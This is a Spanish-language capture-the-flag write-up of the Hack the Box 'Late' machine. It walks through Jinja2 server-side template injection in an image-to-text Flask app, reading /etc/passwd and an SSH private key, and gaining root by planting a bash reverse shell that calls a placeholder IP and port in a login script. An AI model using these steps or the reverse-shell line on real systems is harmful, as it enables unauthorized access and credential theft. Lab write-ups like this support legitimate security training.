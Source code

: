 ```yaml
---
layout      : post
title       : "Late - Hack the Box"
author      : elc4br4
image       : /assets/images/HTB/Late-HackTheBox/portada.webp
optimized_image : /assets/images/HTB/Late-HackTheBox/portada.webp
category    : [ htb ]
tags        : [ Linux ]
description : En esta ocasión vamos a resolver la máquina Late de la plataforma HackTheBox de nivel *Easy* en la que tendremos SSTI como explotación y una escalada a través de un pequeño script, que tendremos que modificar.
---
```


En esta ocasión vamos a resolver la máquina Late de la plataforma HackTheBox de nivel *Easy* en la que tendremos SSTI como explotación y una escalada a través de un pequeño script, que tendremos que modificar.

![](/assets/images/HTB/Late-Hackthebox/rating-late.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)


# Reconocimiento de Puertos

`` nmap -p- -n -Pn --min-rate 5000 ip -sCV ``

![](/assets/images/HTB/Late-HackTheBox/nmap.png)

Tenemos el puerto 22 y el puerto 80 abiertos.

Procedo a ojear el puerto 80.

# Reconocimiento Web

![](/assets/images/HTB/Late-HackTheBox/web1.png)

A primera vista no hay nada relevante, pero al mirar el código fuente de la página encuentro lo siguiente:

![](/assets/images/HTB/Late-HackTheBox/web2.png)

Encuentro un vhost que añado al archivo hosts de mi máquina.

Accedo al vhost desde el navegador y encuentro la siguiente página web.

![](/assets/images/HTB/Late-HackTheBox/web3.png)

A primera vista estamos ante una web que nos ofrece la posibilidad de convertir imágenes a documentos de texto, y que además usa la tecnología FLASK.

```text 
Flask es un framework minimalista escrito en Python que permite crear aplicaciones web rápidamente y con un mínimo número de líneas de código.
```

`` Está basado en el motor de templates Jinja2. ``

Capturo una imágen con texto, como esta y la subo para convertirla:

![](/assets/images/HTB/Late-HackTheBox/web4.png)

Una vez convertida se nos descargará un archivo bajo el nombre de results.txt con el siguiente contenido:

![](/assets/images/HTB/Late-HackTheBox/web5.png)


Como era obvio, nos convierte el texto de imágen en un documento de texto.

Esto me da que pensar que el servidor interpetará todo aquello que le pongamos en la foto, asique intento probar diferentes vulnerabilidades tales como LFI, RCE… sin éxito alguno.

Buscando por internet información relacionada con Flask y Jinja2 encuentro las siguientes fuentes.

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee]( https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

Podríamos estar ante una vulnerabilidad SSTI (Server Side Template Injection)

# Explotación

Ya que si nos fijamos en la definición de qué es Flask encontramos que está basado en el motor de templates Jinja2.

Asique procedo a buscar más información acerca de como detectar este tipo de vulnerabilidad y encuentro lo siguiente:

![](/assets/images/HTB/Late-HackTheBox/ssti.png)

Si nos copiamos uno de estos templates, y le hacemos captura y lo subimos la página web podremos comprobar si es vulnerable a SSTI.

Uso el siguiente template:
 
`` { {7 * 7} } ``

Una vez lo hemos capturado lo subimos y leemos la respuesta

![](/assets/images/HTB/Late-HackTheBox/ssti2.png)

Como vemos es vulnerable a SSTI, ya que nos devuelve el resultado de la operación 7*7=49

Sigo los pasos de la web de referencia para continuar después de haber detectado la vulnerabilidad, el siguiente paso es explotar la vulnerabilidad.

Encuentro lo siguiente:

![](/assets/images/HTB/Late-HackTheBox/ssti3.png)

Con uno de estos templates podemos leer archivos remotos del servidor.

El procedimiento es el mismo, copiar el template, capturarlo y subirlo a la web para comprobar su funcionamiento.

En mi caso probé algunos templates sin éxito hasta que di con el correcto:

![](/assets/images/HTB/Late-HackTheBox/ssti4.png)

Con este template leemos el archivo passwd

![](/assets/images/HTB/Late-HackTheBox/passwd.png)

Filtro por tipo de shell, en este caso bash

Encontramos el usuario svc_acc

A continuación intenté leer el archivo shadow por si por algún casual tuvieramos acceso y pudiéramos descifrar la contraseña del usuario svc_acc, pero obviamente no tenía permisos.

Se me ocurrió intentar leer el id_rsa del usuario svc_acc para conectarme mediante ssh (puerto 22), editando el template usado anteriormente.

![](/assets/images/HTB/Late-HackTheBox/ssti5.png)

Repetimos el procedimiento y leemos el archivo results.txt.

![](/assets/images/HTB/Late-HackTheBox/rsa.png)

Y ya tenemos el id_rsa, ahora le asignamos los permisos necesarios y nos logueamos por ssh usando la clave rsa.

![](/assets/images/HTB/Late-HackTheBox/sshrsa.png)

Listo, tengo acceso al servidor como el usuario svc_acc y ya podemos leer la flag user.txt.

# Escalada de Privilegios

A continuación toca escalar privilegios, y si nos fijamos tenemos las herramientas pspy64 y linpeas para facilitarnos la escalada.

Primero lanzo pspy64 para buscar procesos ocultos en ejecución y encuentro algo extraño.

![](/assets/images/HTB/Late-HackTheBox/pspy64.png)

Tenemos un script en bash bajo el nombre de ssh-alert.sh, leo el código y encuentro esto:

![](/assets/images/HTB/Late-HackTheBox/ssh-alert.png)

Es un script en bash que se ejecuta cuando nos logueamos por ssh.

Pruebo a introducir una reverse shell en bash para que cuanto nos logueemos nos devuelva una shell como root.

```bash
echo "bash -i >& /dev/tcp/IP/PORT 0>&1" > reverse.txt 

cat ssh-alert.sh
```

![](/assets/images/HTB/Late-HackTheBox/rev-shell.png)

Ahora nos ponemos en escucha desde el puerto que hayamos puesto en la reverse shell y nos conectamos por ssh como anteriormente.

![](/assets/images/HTB/Late-HackTheBox/root.png)

